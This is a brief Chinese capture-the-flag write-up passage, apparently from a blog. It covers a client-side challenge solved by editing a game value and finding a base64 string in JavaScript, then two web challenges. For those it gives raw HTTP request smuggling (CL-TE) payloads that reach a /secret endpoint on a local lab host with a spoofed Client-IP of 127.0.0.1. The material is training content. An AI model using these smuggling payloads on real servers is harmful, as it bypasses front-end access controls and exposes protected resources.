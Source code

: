 谷歌浏览器打开 切换到移动端 修改长度后挺简单2000分的

![](https://img-blog.csdnimg.cn/20210204225313555.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
二：js代码里面仔细找到一串base64

- 以后可以搜索一些alert之类的代码查询到关键词


![](https://img-blog.csdnimg.cn/20210204225451840.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---

## web3 - 宝藏走私者(X)
[HTTP走私](https://paper.seebug.org/1048/)

- HTTP Smuggling CL-TE
![](https://img-blog.csdnimg.cn/20210207224509831.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
该版本存在 HTTP Smuggling CL-TE 漏洞
会将请求漏给后端服务器，造成走私

```bash
POST / HTTP/1.1
Host: hrs.localhost
Content-Length: 73
Transfer-Encoding: chunked

0

GET /secret HTTP/1.1
Host: hrs.localhost
Client-IP: 127.0.0.1
```

---
## web4 - 走私者得愤怒

 同web3一样
```bash
POST / HTTP/1.1
Host: hrs.localhost
Content-Length: 100
Transfer-Encoding: chunked


0

POST /secret HTTP/1.1
Host: hrs.localhost
Client-IP: 127.0.0.1
Content-Length: 20
233
```

---